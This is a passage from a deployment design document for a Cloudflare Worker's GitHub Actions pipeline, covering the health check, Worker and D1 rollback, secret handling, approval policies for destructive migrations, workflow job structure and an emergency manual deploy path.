- The token's permissions are unknown to the author [R]. Whether it covers what the pipeline needs (Workers Scripts edit for `wrangler deploy`, D1 edit for `d1 migrations list/apply --remote` and `d1 time-travel info`) is not verified; the owner's local manual deploys and the hand-applied migration 0002 (#122) suggest it does [R]. If the first run reports a missing permission, the owner adds exactly that one to the existing token (the permission groups are listed at https://developers.cloudflare.com/fundamentals/api/reference/permissions/ [V]) and comments which one on #199.
- The pipeline depends on nothing else about the token. `CLOUDFLARE_ACCOUNT_ID` is passed explicitly so that wrangler does not have to look the account up [P].
- Reducing the scope later (a dedicated token with Workers Scripts: Edit and D1: Edit on one account) stays possible without any change to the workflows, because only the secret value changes. This is noted as a fact, not as a request.
- Everything that limits the damage of this token is therefore in the other controls: environment-only secret, master-only deployment policy, no secrets for PR builds, two pinned actions, no third party sees the token, `npm ci --ignore-scripts` in a step without secrets, no verbose logs, rotation and recovery (section 3).

## 8. Health check design

- Call: `GET <public worker URL>/rest/ping?f=json` WITHOUT credentials [P]. Without `f=json` the Worker answers XML by default [V worker/scripts/smoke.mjs, "XML response by default" check], so the check sends `f=json` to match a stable JSON body.
- Expected: HTTP 200 and `subsonic-response.status == "failed"` with `error.code == 40` [V worker/src/index.ts: unauthenticated requests get `fail(params, 40, "Wrong username or password")` before any route is reached; the smoke test checks `error.code === 40` for a bad token]. Retry budget about 5 tries with a short sleep (the new version may take seconds to propagate) [P]. The proposal is a small `node` script using `fetch` (no new dependency); the URL comes from the masked `WORKER_URL` (section 4.3) [P].
- **What it proves:** a Worker version is deployed and reachable on the public URL; the script starts without crashing at load; the router and the Subsonic envelope code run; the `/rest/` route exists [V code].
- **What it does NOT prove:** D1 connectivity or that migrations are compatible (`ping` returns before any D1 query: `authenticate` fails first [V worker/src/index.ts]); the Subsonic credentials; Telegram. Worse, error 40 is also what the Worker returns when the Worker secrets are MISSING, because authentication fails closed [V worker/src/auth.ts "Fail closed if secrets are not configured"], so a deploy that lost the secrets would still pass. The credentials are deliberately NOT given to GitHub [V #196, #199], so a deeper check is not possible with `/rest/ping`.
- **Option to decide (not ticketed): a tiny unauthenticated `GET /health`** that runs `SELECT 1` on `DB` and returns `{"ok":true}` [P]. Pros: proves D1 binding and the migrated database answer. Cons: a code change in `worker/src/`, a new unauthenticated surface (it must return no data, no error text, no version), and it still does not prove the secrets. Recommendation: not now; accept the documented limitation, revisit if a migration ever breaks D1 access after a deploy. If chosen, it gets its own ticket and the health step switches to it; the smoke test would also need a case [P].

## 9. Rollback

Order [P]: roll back the Worker first (cheap, instant, reversible), and restore the database only if data or schema is damaged, because a restore also discards every row written after the bookmark (ingest runs on the owner's machine and writes library rows to D1; after a restore re-run ingest; whether ingest is idempotent over lost rows must be checked before relying on it [R]).

### 9.1 Worker

- Find versions: `npx wrangler deployments list` / `npx wrangler versions list` (10 most recent; `--json` available) [V https://developers.cloudflare.com/workers/wrangler/commands/workers/]. The deploy job writes the version id it deployed to the summary; as merged (#263) it does NOT record the previous active version id (reading it needs `versions list --json` or `deployments list --json` before the deploy), so the runbook ([worker-deploy-runbook.md](worker-deploy-runbook.md) section 4) tells the owner how to find it by hand [V workflow].
- Roll back: `npx wrangler rollback [<VERSION_ID>] --message "<reason>" -c wrangler.local.toml` from `worker/` on the owner's machine. Without `VERSION_ID` it goes to the 100 percent version of the previous deployment [V wrangler source]; "A rollback will immediately create a new deployment with the specified version" for all routes and domains; `--message` is only the default of the message prompt: in the pinned wrangler 4.149.0 the owner still answers the message and the confirmation prompt interactively (they take their defaults only in a non-interactive shell or with `CI` set) [V commands page; behaviour V wrangler source]. No `--yes` flag is listed on that page [V], the pinned wrangler 4.149.0 lists `--yes`/`-y` for `rollback` in its help, but the handler never reads it (it changes nothing) [V worker/node_modules source, 2026-10-11].
- Limits [V https://developers.cloudflare.com/workers/configuration/versions-and-deployments/rollbacks/]: only the 100 most recent versions; "Resources connected to your Worker will not be changed during a rollback" (so D1 data and schema stay as they are); blocked after Durable Object lifecycle changes or when a target binds a deleted R2/KV/queue (we use none: [V worker/wrangler.toml has only D1]). Whether secrets are kept or reverted is not stated there [R]: after a rollback, check that the Subsonic login still works.
- The rollback is a production change: agents cannot run it from their shell (policy). Owner only, or a future manual `workflow_dispatch` input [P, not planned].

### 9.2 Database

- The bookmark from the job summary (taken before `migrations apply`) is the recovery point. Restore: `npx wrangler d1 time-travel restore cowlic --bookmark=<BOOKMARK> -c wrangler.local.toml` [V syntax https://developers.cloudflare.com/d1/reference/time-travel/]. It "overwrites the database in place", cancels in-flight queries, prompts `OK to proceed (y/N)`, and prints a bookmark of the state before the restore with the command to undo it [V]. A bookmark older than the retention (30 days paid, 7 free) is invalid [V].
- If the summary has no bookmark (it should not happen: fail closed), `time-travel info <DB> --timestamp=<RFC3339>` gives a bookmark for a past time within retention [V].
- For a small additive mistake, the rollback statements kept as comments in the migration file (like 0002's `DROP INDEX IF EXISTS ...`) are cheaper than a restore [V 0002]; a statement that drops something is destructive and follows the manual-change conditions of worker-deploy-runbook.md section 5.2; they are run by the owner with `wrangler d1 execute cowlic --remote --command ... -c wrangler.local.toml` (flags `--command`, `--file`, `--remote`, `--yes` exist [V https://developers.cloudflare.com/d1/wrangler-commands/]). After running them, the row in `d1_migrations` still marks the migration as applied [R]: write a new migration instead of re-applying.
- Restore is done locally by the owner with the owner's own token (the same token that the pipeline uses; whether it permits `time-travel` is [R], section 7).

## 10. Owner decisions (the owner confirms them in #199; defaults recommended here)

1. **Approval policy of environment `production`.**
   - Options: (a) no required reviewers, deployment branches restricted to master; (b) the owner as required reviewer (one click per deploy).
   - **Recommended: (a), conditional on decision 3 (the master ruleset).** The owner wants it automatic. The protection then is: master reachable only through a pull request with a green `Worker CI / ci` (only true if the ruleset of decision 3 exists: today it does not, section 3 rule 11), the independent review by convention (`review-completed`), the branch restriction means no other ref can read the secrets, and migrations that would destroy data wait for approval in any case. Without decision 3, (a) means that any push by anyone with write access deploys to production with the broad token.
   - Trade-off: anything merged to master reaches production within minutes, including a bad change that review missed; the mitigations are rollback (section 9), Time Travel and the health check. (b) adds a human stop for every deploy, at the cost of one click each time and an owner-availability dependency.
   - Destructive migrations ALWAYS need the owner's manual approval via the second environment `production-destructive`: branches `master` (selected-branches policy, exact branch), the owner as required reviewer, the same three secrets (token, account id, D1 id). **Recommended and fixed: confirmed as in the ticket.** A note [R]: GitHub's "prevent self-review" option on the environment, if the owner is also the actor, may block the owner's approval; leave it off.
2. **Trigger.**
   - Options: (a) every push to master that changes `worker/**` plus `workflow_dispatch`; (b) only release tags (more control, one extra manual step per release).
   - **Recommended: (a)** [P]. The path filter means docs-only and ingest-only merges do not deploy. The deploy workflow's own file is deliberately not in the filter (a workflow edit alone must not redeploy; the owner can use `workflow_dispatch`). `workflow_dispatch` runs only from master (`if:` on the ref and the environment branch rule).
   - Trade-off of (a): no pause between merge and production; of (b): releases can lag and master and production drift.
3. **Repository ruleset for master (new, needed by decision 1).** Options: (a) a ruleset requiring a pull request and the status check `Worker CI / ci`, 0 required approvals, direct pushes blocked; (b) no ruleset, the owner accepts in writing that any push to master is a production deploy. **Recommended: (a)**, with 0 approvals because the label-based flow has no human approver (the owner is not an approver, decision of 2026-10-10) and a required approval would block it. Trade-off: the required check makes a broken or slow CI block every merge (the owner can bypass in an emergency); the agent flow stays the same: PR, green check, `review-completed`, `gh pr merge --squash`. The ruleset is a repository setting: the owner makes it (agents do not change repo settings), after #200 has made the check exist (a required check that never ran blocks merging).
4. **Token and secrets on GitHub (owner decision 2026-10-11, recorded):** no new scoped token; the existing Cloudflare token is stored as the environment secret `CLOUDFLARE_API_TOKEN` in `production` and `production-destructive` only; no repository-level or organisation-level secret exists (section 3). Environments: selected branch `master` only.

## 11. Names

Names only, never values. Final names (used by every later ticket; #199 and #201 follow them):

| Name | Kind | Where | Used by | Notes |
| --- | --- | --- | --- | --- |
| `CLOUDFLARE_API_TOKEN` | environment secret | `production`, `production-destructive` | `env:` of the wrangler steps only | the owner's EXISTING token (decision 2026-10-11), same value as in the local `.env`; rotation touches both places |
| `CLOUDFLARE_ACCOUNT_ID` | environment secret | both | wrangler step `env:` (same name wrangler reads) | no file needed |
| `D1_DATABASE_ID` | environment secret | both | runner-local config step | validated, masked |
| `WORKER_URL` | environment secret | `production` only | health check and its masks | [P] new; see 4.3 and section 13 |
| label `destructive-migration-approved` | PR label | repo | `plan` job, CI gate | created by the planner |
| environments `production`, `production-destructive` | GitHub environments | repo | `migrate`, `deploy` | branch policy `master` |

NO repository-level and NO organisation-level secret at all (not only none with these names: a repository secret reaches same-repo `pull_request` runs, section 3 rule 2). The Worker's own secrets (`TG_BOT_TOKEN`, `SUBSONIC_USER`, `SUBSONIC_PASSWORD`) never go to GitHub [V #199].

## 12. Workflow files and job graph

### 12.1 `worker-ci.yml` (#200)

- Triggers: `pull_request` (types opened, synchronize, reopened, labeled, unlabeled) with NO path filter, and `push` to master with the path filter `worker/**` and the workflow file itself; no `pull_request_target`; no secrets; no `environment:` [V #200, #212]. Why no filter on `pull_request`: the master ruleset requires the check `ci`, and a PR that touches nothing under `worker/` would never get one and could not merge. Why the filter stays on `push`: nothing needs a run for a docs-only push and the ruleset only gates pull requests. `labeled`/`unlabeled` stay because the destructive gate reads the labels at run time; the cost is one short run per label change on every PR.
- Skipping: after checkout, the steps `Resolve base commit` and `Detect worker changes` compute `worker_changed` (any file under `worker/` or the workflow file differs from the base). When it is `false`, setup-node, `npm ci`, typecheck, immutability, lint and smoke are skipped by step-level `if:` and the job still finishes green as `ci`. It is deliberately not a job-level `if:` (a skipped job reports "skipped"). Fail closed: if the base cannot be resolved or the diff fails, `worker_changed` is `true` and the base-dependent steps fail the job [P; V #212].
- Merge queue (#292): the master ruleset gained a `merge_queue` rule (squash, grouping ALLGREEN) next to the required status check, whose context is `ci` (job `ci`). The queue only proceeds when `ci` is reported on the `gh-readonly-queue/*` commit, and GitHub sends that commit a `merge_group` event (type `checks_requested`), not `pull_request` or `push` [V GitHub docs, managing a merge queue: "You must use the merge_group event to trigger your GitHub Actions workflow"]. Without the trigger the queue waits until its 60-minute timeout. So `worker-ci.yml` has `merge_group: types: [checks_requested]` with no path filter and the job `ci` still has no job-level `if:`, so it always reports. Base and head: `Resolve base commit` takes `github.event.merge_group.base_sha` as the base, and only when `github.event.merge_group.head_sha` is also present and equals the checked-out commit (`github.sha`); both are passed through `env:` and must be 40 lowercase hex characters and exist in the clone. Anything else leaves the base empty, so `worker_changed` is `true` and the base-dependent steps fail closed. There are no PR labels on `merge_group`, so the destructive gate is closed there: a destructive migration that passed on the PR with the label fails the queue run (by choice; the PR run already showed it). `worker-deploy.yml` has NO `merge_group` trigger and its guard requires `refs/heads/master`, so nothing deploys from the queue; the queue's squash commit is an ordinary push to master and the existing `worker/**` path filter starts the deploy (a docs-only or workflow-only change does not). `scripts/workflow-check.mjs` asserts both. Whether the merge_group run uses the workflow file of the merge-group commit (so that the PR adding the trigger bootstraps itself) is expected, not verified: observe on the first run; if the queue stalls on that PR, the owner merges it directly. `version.yml` is not a required check and has no `merge_group` trigger.
- `permissions: contents: read`; `concurrency: group: worker-ci-${{ github.event_name }}-${{ github.ref }}`, `cancel-in-progress: ${{ github.event_name == 'pull_request' }}`: only superseded PR runs are cancelled, a queue run never is [P].
- Job `ci` on `ubuntu-latest`, `timeout-minutes` set [P]; steps: checkout (`persist-credentials: false`, `fetch-depth: 0` so that `origin/master` and the base commit exist: the default depth 1 has no `origin/master`, so the lint of #198 would exit 2 and the check would be permanently red [V checkout action.yml default `fetch-depth: 1`; PR #205 exits 2 when the base is missing]), setup-node (22, no cache), then in `worker/`: `npm ci`; `npx tsc --noEmit`; migration lint (#198) on migrations added against the base (default mode `--base origin/master`); the immutability check of rule 5a (fails when a migration present in the base is modified, renamed or deleted); the CI-safe smoke command (section 12.3).
- The linter's own tests (`worker/scripts/lint-migrations.test.mjs`, node:test, no dependency) run in `Worker CI / ci` as the step "Migration lint tests" (#286, reworked by #289): `node --test` with two reporters, spec to stdout (the log) and junit to `$RUNNER_TEMP/lint-tests.xml` (not committed, not uploaded). The node exit code fails the job on a failing test. No text of the output is parsed.
- "Test Report" (#289): the step right after it uses `mikepenz/action-junit-report` (pinned by SHA, audit in section 6) to publish the XML as an extra check run named "Test Report" with the counts. Options: `fail_on_failure`, `fail_on_parse_error` and `require_tests` on, `comment` off. Permissions: `checks: write` at the job level of `ci` only (no `pull-requests: write`); the job also keeps `contents: read`. The step runs after a failed test step, but not when that step was skipped (no XML) and not on a cancelled run. Fork PRs: the token is read-only, so the check run cannot be created; the action only logs that, and `continue-on-error` is set for fork PRs on this step, so a missing permission never fails `ci`; a real test failure still fails `ci` through the exit code of the test step. The job name `ci` has no job-level `if:` and still always reports. The step uses no PR context: on `push` and `merge_group` the check run is attached to `github.sha`, and the fork expression (`github.event.pull_request.head.repo.fork == true`) is false there, so a report failure fails `ci` as on a same-repo PR.
- Relation to the deploy gate and the ruleset: "Test Report" is an additional check, NOT part of the master ruleset (the required context stays `ci`), and neither the deploy gate (#287) nor `worker-deploy.yml` read it: they read the result of `ci`.
- "Minimum test count": node:test counts a file that registers nothing as ONE passing test, and `require_tests` only demands more than zero, so an import-only file would pass. The step after the report compares the numeric `passed` output of the report action with a pinned floor (`MIN_TESTS`, 60 against 69 real ones; skipped, todo and cancelled tests are not counted as passed). The floor is changed deliberately when tests are added or removed. The action has no option for a minimum count, which is why this check stays (a number comparison, no parsing). It also covers fork PRs, where the report step ignores its own failure.
- Vitest (#285, first part): the paging, log-leak and CORS checks are Vitest tests in `worker/test/` (`npm test`, step "Vitest tests"). Plain Vitest in the Node environment with stubbed D1 and Telegram; `@cloudflare/vitest-pool-workers` was not adopted because every release pins its own exact `wrangler` and `miniflare` (a second copy next to ours) and needs Vitest 4. Vitest writes JUnit to `$RUNNER_TEMP/vitest.xml`, which the second report step "Test Report (Vitest)" publishes with the same pinned action and options. Guards, no PASS counters: Vitest fails on a failing test, on zero collected tests (`passWithNoTests: false`) and on a committed `.only` (`allowOnly: false`); the step "Minimum test count (Vitest)" fails when `skipped` is not 0 or `passed` is below the pinned floor `MIN_TESTS` (a number from the report outputs, changed deliberately). Everything works on `merge_group` (no PR context). The `smoke` and `workflow-check` scripts still keep their own counters until the next parts of #285.
- Destructive gate: if the lint reports destructive statements, the job fails unless the PR carries the label `destructive-migration-approved` (read from `github.event.pull_request.labels.*.name` in an `if:`/`env:` boolean, not from text spliced into a script) [P; V #200]. A `push` run to master lints and checks immutability against the previous head (`github.event.before`) and is a regression net; it has no label, so a destructive migration would fail there.

### 12.2 `worker-deploy.yml` (#201, extended by #202)

Triggers: `push` to master with path filter `worker/**` (not docs, not the workflow file itself), and `workflow_dispatch`. `permissions: contents: read`. `concurrency: group: worker-deploy, cancel-in-progress: false`.

| Job | Environment | Secrets | Needs | What it does |
| --- | --- | --- | --- | --- |
| `plan` | none | none; `pull-requests: read`, `deployments: read` [R] | none | checkout with `fetch-depth: 0` (otherwise `github.event.before` and `origin/master` do not exist in a shallow clone); verify `github.sha` is master head; compute the BASE commit (below); lint the migrations added in `BASE..github.sha`; ask the API which PR each such commit came from (`gh api repos/<repo>/commits/<sha>/pulls`, default `GITHUB_TOKEN`; mapping a squash-merge commit to its PR with this endpoint is [R]) and whether it has the label; output `environment` = `production` or `production-destructive`, or fail (destructive without label). |
| `migrate` | `${{ needs.plan.outputs.environment }}` | the three env secrets | `plan` | `npm ci --ignore-scripts` (no secrets); write runner-local config (section 4.2); `migrations list --remote`; if none: summary "no pending migrations", done. Else: re-lint the pending files (defence in depth, fail on destructive unless the job is in `production-destructive` and runs the lint with `--approved`); `time-travel info --json` -> bookmark in summary (fail closed if missing); `migrations apply --remote`; applied names in summary. |
| `deploy` | `production` | the three env secrets (+ `WORKER_URL`) | `migrate` (success) | `npm ci --ignore-scripts`; runner-local config; record previous version; `npx wrangler deploy -c wrangler.ci.toml`; health check; summary with version id, git SHA and, on health failure, the rollback command. |

How `plan` computes BASE (the range of migrations to classify) [P]:

- Not `github.event.before`: if a pending run is replaced by a newer one (section 3 rule 5) or a run fails, the next run's `before..sha` would miss the migrations of the skipped run, which then could no longer be routed to `production-destructive` (the `migrate` re-lint would fail closed in `production`: safe but not legitimate).
- BASE = the commit of the last SUCCESSFUL deployment to the environment `production` (GitHub creates a deployment record for every job with `environment:`; read with `gh api repos/<repo>/deployments?environment=production` and its statuses, `deployments: read` on the `plan` job only; availability and field names are [R], #201 verifies; the `deploy` job also writes its git SHA to the summary for humans, but a summary is not machine readable and is not used).
- If no successful deployment exists (the very first run) or the API call fails: use `github.event.before` for `push`; for `workflow_dispatch` (no `before`) use `origin/master^1`; if `origin/master` or the chosen base commit is missing from the clone the job FAILS CLOSED (it never lints "nothing" silently). The first run has no pending migrations (section 5.1 rule 5 [V]), so the fallback is harmless, and the `migrate` job re-lints the pending files anyway (authoritative, fail closed in `production`).
- `workflow_dispatch` therefore lints `BASE..HEAD` of master like a push and reads the PR labels of the commits in that range the same way.
- For a destructive finding, `plan` finds the commit that added the file (`git log --diff-filter=A -- <file>` within the range) and checks the label on THAT commit's PR, so a label on an unrelated PR in the range does not authorise it [P].

Properties of BASE [P]:

- `migrate` jobs in `production` also create deployment records, so BASE can advance after a run whose `deploy` failed. This is harmless: a migration that already reached the database is no longer pending, and the `migrate` re-lint looks at the pending files, not at BASE.
- BASE must be an ancestor of `github.sha` (`git merge-base --is-ancestor`); if it is not, the job fails closed.
- Anyone with write access can create deployment records through the API, so BASE is advisory only. The authority is the `migrate` re-lint of the pending files (from `migrations list --remote`) plus the environment approval. The fallback to `github.event.before` when the API fails reduces the precision of the plan, but never skips the re-lint.

Notes:

- A job's `environment:` may be an expression [R; GitHub supports expressions there for job-level `environment`; #202 verifies it on a throwaway run, otherwise falls back to two migrate jobs with `if:`].
- Environment protection (approval) for `production-destructive` is evaluated when the `migrate` job is about to start; the job waits for the owner [V behaviour of required reviewers, general GitHub feature; exact UI [R]].
- `deploy` is not run when `migrate` fails or is skipped by failure (`needs:` default).
- All shell steps pass any non-constant value through `env:`; no `${{ github.event... }}` text inside `run:` [P].
- #272: `plan` also reads the subject line of the commit (step "Commit title", `gh api commits/<sha>`, only the default read permission), reduces it to `[A-Za-z0-9 ._,:;()#/+-]` and at most 100 characters and exposes it as the output `commit_title`; `deploy` re-validates it and passes `--tag=<short sha>` and `--message="GitHub Actions run <run id>: <title>"` to `wrangler deploy`. Details, limits and the logs setting of the same ticket: [worker-deploy-runbook.md](worker-deploy-runbook.md) section 11.

### 12.3 CI-safe smoke (spec for #197)

`worker/scripts/smoke.mjs` today needs a `.dev.vars` file, a seeded local D1 with track `t1`, and real Telegram for the `stream` checks [V worker/scripts/smoke.mjs header and checks]. CI version [P]:

- A switch such as `SMOKE_SKIP_STREAM=1` skips the four checks that fetch from Telegram (Range, full body, content type, MP3 header; plus the full-size check with the hard-coded 7682132 bytes). The checks that do not reach Telegram (auth, library endpoints, stubs, XML, unknown id error) stay. Default behaviour unchanged.
- `.dev.vars` generated per run with FAKE values: `TG_BOT_TOKEN=dummy` and a random `SUBSONIC_USER`/`SUBSONIC_PASSWORD` produced in the job (not a secret, never reused). The file is gitignored [V .gitignore lists `.dev.vars`].
- Schema from the committed migrations: `wrangler d1 migrations apply DB --local` (flags [V d1 commands page]), which also proves that all migrations apply to an empty database; seed rows (`ar1`, `al1`, `t1`, fake Telegram ids) from a committed SQL fixture.
- `package.json` scripts only (no new dependency): `smoke:ci` runs migrations (local), seed, `smoke.mjs` with the skip switch (the paging check moved to Vitest, #285); non-zero exit on any failure [V #197].
- With the placeholder `database_id` in `wrangler.toml` local mode may or may not need a real id: the D1 local-development page only talks about `preview_database_id` and does not say whether a placeholder `database_id` is fine [V page read; conclusion [R]]. #197 settles it by running from a clean checkout and states the result; if it does not work, the CI step generates a throwaway local config (a different file from the production one) with a fake id.

### 12.4 How #202 implements 12.2 (`plan` classification and `migrate`)

Decisions where the implementation had to choose (the workflow file carries the same comments):

- **`migrate` always runs when a deploy is planned.** `plan` classifies the migration files ADDED in `BASE..sha` (immutability check, then lint file by file, then the label of the PR of the commit that added each destructive file) and writes the output `environment` (`production` or `production-destructive`). That classification is advisory. The authority is `migrate`: the pending list of the remote DB (`wrangler d1 migrations list`), the re-lint of exactly those files (without `--approved` in `production`, with it only in `production-destructive`) and the environment approval. "Nothing pending" is a green no-op inside `migrate`; `deploy` has `needs: [plan, migrate]` and no `always()`, so a failed, rejected, cancelled or skipped `migrate` skips it.
- **Lint outcome per new file.** Exit 0 (warnings such as ADD COLUMN included, so 0003 is NOT destructive) -> `production`. Exit 1 that becomes exit 0 with `--approved` -> destructive only. Everything else (missing IF NOT EXISTS, parse error, exit 2) fails the run; no label waives it.
- **Label.** It is read at run time from `commits/<sha>/pulls` of the commit that ADDED the file: the PR must be merged, its `merge_commit_sha` must equal that commit (squash merge) and it must carry exactly `destructive-migration-approved`. Any API error means "no label". The label only selects the route; the owner's approval of `production-destructive` is the authorisation. If the owner rejects, `migrate` does not run, nothing is applied and nothing is deployed; the migration stays unapplied, so the next run (its BASE is still the last successful deployment) routes it to the approval again until it is approved or reverted. A revert of a never-applied file removes it from `BASE..sha` and clears the block. In `production-destructive` the re-lint runs with `--approved` on ALL pending files, and the owner's approval screen lists no files: the `plan` summary lists the destructive files, and the owner checks it (and the pending list) before approving. An unlabelled pending destructive file in `production` fails every run until it is handled by hand (label plus approval, or a revert if it was never applied); the runbook (#203) says how.
- **Immutability** is checked in `plan` against BASE (`git diff --name-status --diff-filter=MRDT BASE sha -- worker/migrations/`), before `migrate` can be offered for approval. A migration merged but not yet applied that a later commit edits is linted at its final content (it is "added" relative to BASE); CI blocks that edit at PR time. A BASE older than the real last application weakens this check, which is why BASE is only the plan and not the authority.
- **BASE.** The first of the 30 newest deployments of `production` whose latest status is `success`; fallback `github.event.before` (push) or the parent of the commit (dispatch); must exist and be an ancestor of the commit. `migrate` in `production` also writes deployment records, so BASE can advance past a run whose `deploy` failed: harmless, those migrations are applied. `production-destructive` records are not in the `production` list.
- **Environment expression.** `migrate` uses `environment: name: ${{ needs.plan.outputs.environment }}`, guarded by an `if:` that accepts only the two literals (GitHub creates unknown environments without protection). Documented GitHub behaviour [V context availability of `jobs.<id>.environment` includes `needs`], not run yet [R]: if GitHub rejects the expression at the first run, replace it by two jobs `migrate` / `migrate-destructive` with `if:` and give `deploy` a matching `needs`.
- **Concurrency.** A `migrate` waiting for the owner holds the `worker-deploy` group; newer runs queue behind it (one pending run is kept). They do not lose the waiting migration, see BASE above.
- **Steps with secrets.** Only the config step (D1 id) and the four wrangler steps (token, account id). The wrangler output of `list` and `time-travel info` goes to files and is printed only on failure; `apply` prints to the log, where GitHub masks the known ids (wrangler prints the database id in "Executing on remote database"). The D1 id is validated, then masked, in the same step that writes the config.

Wrangler 4.149.0 behaviour, read in the pinned source (2026-10-11) and rehearsed against a LOCAL D1 [V local only]: `migrations list` prints "No migrations to apply!" or "Migrations to be applied:" followed by a table with one name per row (no JSON option); `migrations apply` asks a confirmation that takes the fallback value yes when there is no TTY or CI is set; it applies the files in order, each as one query (file plus the insert into `d1_migrations`), and stops at the first error with a non-zero exit; on the local D1 a failing file was rolled back as a whole and not recorded. Whether the remote D1 treats a multi-statement file atomically is not documented [R]; the Time Travel bookmark is the recovery point. `time-travel info --json` prints the API result and its text mode reads `result.bookmark`, so the JSON has a `bookmark` field [V source; the real response is not seen yet].

First real run, what the owner or coordinator checks [R until then]:

1. Both environments exist with the master-only policy and the secrets of section 11 (owner ticket #264); decide whether 0003 is applied by hand (#261) or by the first run.
2. `plan`: summary shows BASE (fallback source on the first run, because no deployment record exists yet) and the new migration files; `environment` is `production`.
3. `migrate`: no hang at the apply (non-interactive), `list` names the pending migrations (0003 if not applied by hand), the lint passes with the ADD COLUMN warning, the bookmark appears in the summary, the apply succeeds, "no migration pending after the apply" is printed.
4. The log contains no account id, D1 id, token or workers.dev host (the masks), also in the `apply` output.
5. `deploy` runs only after `migrate` is green; a second run (dispatch) shows "No pending migrations" and still deploys.
6. The `environment` expression was accepted by GitHub, and a throwaway destructive migration (label plus approval, and a rejection) is checked on a throwaway PR by review, never on production.

## 13. Changes needed in the sibling tickets (listed here as the ticket asks; also posted as comments)

- **#199 (owner):** NO scoped token to create: the owner adds the existing Cloudflare token as the environment secret `CLOUDFLARE_API_TOKEN` (not `CF_DEPLOY_API_TOKEN`) in both environments, plus `CLOUDFLARE_ACCOUNT_ID` and `D1_DATABASE_ID` in both and `WORKER_URL` in `production` only; verify that no repository-level or organisation-level secret exists and that both environments use the selected branch `master`; new decision: the master ruleset (section 10 decision 3); if the first run names a missing permission on the existing token, add exactly that one. The owner no longer has to run `migrations list --remote` (first-run no-op verified, section 5.1 rule 5 [V]).
- **#201:** (a) job `plan` and the `migrate`/`deploy` split come from #202's scope, but `plan` and the guard "sha is master head" are best created in #201 so that #202 only adds the migrate job; (b) `wrangler.ci.toml` is already in `.gitignore` (added by PR #206, before any step writes it); the secret is `CLOUDFLARE_API_TOKEN`; `plan` uses `fetch-depth: 0` and the BASE rule of 12.2; (c) the health URL is the secret `WORKER_URL`; the URL, the host and the account subdomain label are each registered with `::add-mask::` (4.3); the D1 id is validated BEFORE `add-mask` (4.2); (d) `wrangler deploy --dry-run -c wrangler.ci.toml` once in the rehearsal to confirm the config location (section 4.1); (e) first-run log scan for the account id, D1 id and workers.dev host.
- **#202:** `migrate` runs in the environment computed by `plan`; `npm ci --ignore-scripts`; `--approved` only in `production-destructive`; non-interactive proof and JSON shape of `time-travel info` are explicit first-run verifications; `timeout-minutes`.
- **#200:** `smoke:ci` name and lint call as in section 12; check name `Worker CI / ci`; `fetch-depth: 0`; add the immutability check of section 5.1 rule 5a (applied migrations cannot be modified, renamed or deleted); the check must exist before the owner can make it required by the master ruleset (section 10 decision 3).
- **#203:** see section 14.

## 14. Doc edits for #203 and the runbook outline

Edits (each statement must be true after the pipeline lands):

- `CLAUDE.md`: the fact "GitHub no longer uses secrets ... none should be added" becomes: ingest uses none; the Worker deploy uses environment secrets in `production` and `production-destructive`; add the layout entries for the workflows, the lint and `smoke:ci`; keep the rule that agents cannot do production changes. (This ticket does NOT edit CLAUDE.md.)
- `README.md`: the paragraph about secrets.
- `docs/architecture.md` section 4: the sentence "GitHub is not used for secrets any more" and the Worker deploy and secrets setup text; the risk table row if it mentions manual deploy. Mention that migration 0002 was applied by hand (#122) and is the last exception.
- `docs/poc-plan.md` only if it contradicts.
- Check: `grep -n "no longer uses secrets\|not used for secrets" CLAUDE.md README.md docs/` returns only true statements [V #203].

Runbook outline (written as [worker-deploy-runbook.md](worker-deploy-runbook.md), #203): release flow (PR -> CI -> review -> merge -> plan -> migrate -> deploy -> health), where to read a run and what each summary shows, rollback (section 9), the order of rollbacks, emergency manual deploy (first `workflow_dispatch` on master; last resort the owner's local `npx wrangler deploy -c wrangler.local.toml` from `worker/`; agents cannot do either from their shell), secrets inventory with locations (GitHub environment secrets, Worker secrets in Cloudflare, local `.env` keys) and rotation (the owner rotates the existing Cloudflare token in the dashboard, then updates the local `.env` and BOTH environment secrets; section 3 rule 10), the leak detection and recovery steps (section 3 rule 9), the owner's `wrangler secret list` check after the first run (compensating control for the health check limit), the author rule for migrations (additive and idempotent, code works with and without them, how to request a destructive one with the label plus approval).

## 15. Emergency manual deploy path

1. First choice: Actions -> "Worker deploy" -> Run workflow on master (`workflow_dispatch`), which goes through plan, migrate, deploy and the health check with the same protections [P].
2. If GitHub Actions or the environment secrets are unavailable: the owner runs, from `worker/` on their own machine, `npx wrangler deploy -c wrangler.local.toml` (the existing path with the gitignored config and the owner's token from `.env`, the same token the pipeline uses) [V CLAUDE.md]. Migrations in that case: `npx wrangler d1 migrations apply cowlic --remote -c wrangler.local.toml` after `time-travel info` has been noted by hand [P; commands R per section 5.2].
3. Agents cannot do either (production changes are denied to their shell) [V #122, CLAUDE.md]; they prepare the change and the owner runs it.
4. After a manual deploy: run the health check by hand (`/rest/ping?f=json` without credentials must show error 40), then log in from Symfonium, and file a note on the ticket that the pipeline was bypassed and why.

## 16. Verification status of this document

Verified by the author on 2026-10-11: repo files named above; GitHub API for both action pins and their `action.yml`; the Cloudflare pages cited as [V]. Not verified (all [R] items): wrangler behaviour in CI (non-interactive `d1 migrations apply --remote`, JSON shape of `d1 time-travel info`, whether the owner's existing token covers `wrangler deploy`, `d1 migrations list/apply --remote` and `d1 time-travel info`, `wrangler rollback` effect on secrets), masking of derived values, `commits/{sha}/pulls` for squash merges, the `environment:` expression, config-file-relative path resolution, local-mode `database_id` placeholder. No workflow was run and nothing was applied to production. There are no tests for a docs-only change; the reviewer re-checks the two action SHAs with the `gh api` commands in section 6.
